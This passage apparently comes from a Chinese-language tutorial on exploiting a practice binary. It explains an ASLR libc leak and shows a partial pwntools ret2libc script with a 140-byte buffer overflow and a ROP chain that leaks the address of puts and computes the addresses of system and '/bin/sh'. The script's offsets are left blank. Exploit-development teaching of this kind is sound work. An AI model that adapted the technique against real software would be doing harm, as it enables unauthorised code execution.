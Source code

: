 我们执行了3次，结果显示每次puts的地址都是不同的。这意味着我们不能事先确定puts地址。现在我们需要找到 puts 在 libc 中的偏移，然后计算 libc 的基地址。在我们有了基地址后，我们可以使用相应的偏移量计算 system，exit 和 “/bin/sh” 等的真实地址。

基本代码如下：
```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()

```